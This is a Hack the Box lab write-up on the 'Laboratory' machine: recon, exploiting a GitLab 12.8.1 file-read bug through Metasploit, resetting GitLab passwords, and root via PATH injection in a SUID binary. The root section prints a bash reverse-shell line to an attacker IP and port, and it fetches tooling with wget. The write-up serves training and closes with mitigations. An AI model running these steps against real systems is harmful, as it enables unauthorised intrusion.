





# Hack the Box - Laboratory


<div style="text-align:center">Write-up of Laboratory - Difficulty : Easy </div>

<!--more-->

>Just do it  
>  
> -Shia Lebeouf  

## 1. Overview

Laboratory is a Linux box running a vulnerable version of GitLab.  
Utilizing a known vulnerability we can reset the admin password and gain access to a stored SSH key.  
An executable stored on the victim is vulnerable to PATH injection and can be used to gain root access.  z


## 2. Recon

### 2.1 Nmap
As always we start off running a port scan with nmap and we see that ports 22, 80, and 443 are open.  

``` bash 
 nmap -sC -sV -T4 10.129.130.16
```

  

There's a redirect on 443 leading to **https://laboratory.htb**  

### 2.2 Websites
#### 2.2.1 laboratory.htb
We can't get to the site by just browsing to the IP address so we'll have to add it to our **/etc/hosts/** file before browsing to https://laboratory.htb.  
We can see that there's a certificate error. When we view the cert we can see an alternate name listed for **git.laboratory.htb**.

  

Nothing else useful is on the site so we move over to git.laboratory.htb.


#### 2.2.2 git.laboratory.htb

As we poke around the GitLab site we find that we can register a user and login. The website only allows @laboratory.htb emails to be registered but doesn't require any verifcation before it logs you in.  

  

When we get into GitLab the first thing is to check the version, which turns out to be **GitLab Community Edition 12.8.1**. After some googling we wind up at https://hackerone.com/reports/827052 which details a security vulnerability involving read access to system files. This vulnerability can be used to get RCE on the host.  

We need to get the contents of the **secrets.yml** file. To do so we make a two projects, create an issue in one project, and then move that issue over to the other project. That should make GitLab include the actual file we specify in an attachment on the issue.  

   <br>
  <br>
  

## 3. Foothold

For this part we're going to cheat a little and use Metasploit since there's a module available. If we use **exploit/multi/http/gitlab_file_read_rce** it should give use RCE on the box. After filling out all the options (and putting in the secret key we got from before) we can just run the exploit and get a shell as **git**.  
I believe the exploit is able to grab that secrets file itself but wasn't working for me whenver I tried it.


## 4. User

The user git has access to the gitlab-rails console so we'll be able to reset the password for other users on GitLab. We find the necessary documentation at https://docs.gitlab.com/12.10/ee/security/reset_root_password.html. After performing all the necessary steps listed we can simply log in as the user Dexter.  




## 5. Second User

Back we go to the GitLab page to login as Dexter. We can see that he has a project called SecureDocker which for some reason has his private key uploaded in the repo. We can take that key and save it to a text file on our attack box. Using the key we can SSH over as Dexter and grab the user flag. 
```
chmod 600 FILE
ssh -i FILE dexter@10.129.130.16
```

  
  

##6. Root

First thing we do is upload **LinPEAS** to the victim and run it. We host the file with **python3 -m http.server** and the grab it with our remote shell with **wget http://10.10.14.124:8000/linpeas.sh**.  
<br>
LinPEAS finds a file with the SUID bit set in **/usr/local/bin**  
  
<br>
Running that file doesn't appear to do anything so we upload **PSpy** to see if it's doing something in the background that we can't see.  
  
<br>
When we run it again we can see that it's running some commands, but it's not using the absolute path of **chmod** which means that it's most likely vulnerable to PATH injection.  
We make a file in **/tmp** named chmod and fill it with the following bash reverse shell.  
```bash
#!/bin/bash
bash - >& /dev/tcp/10.10.14.124/7233 0>&1
```
After creating out file we need to make sure that docker-security will run our chmod command and not the system's by adding /tmp to our PATH variable with **PATH=/tmp:$PATH**. We start out netcat listener and run docker-security to get our root shell and the root flag.


## Conclusion

1. Update software to ensure known vulnerabilites are mitigated. 
2. Don't upload private keys to an easily accessible location.
3. Ensure any scripting is utilizing absolute path for commands to prevent PATH injection vulnerabilites.

<br>
<br>
<br>

<div style="text-align:center"><a href="https://www.hackthebox.eu/home/users/profile/190484"></a></div>
<div style="text-align:center">If this write-up was helpful consider leaving some respect on my HTB profile.</div>

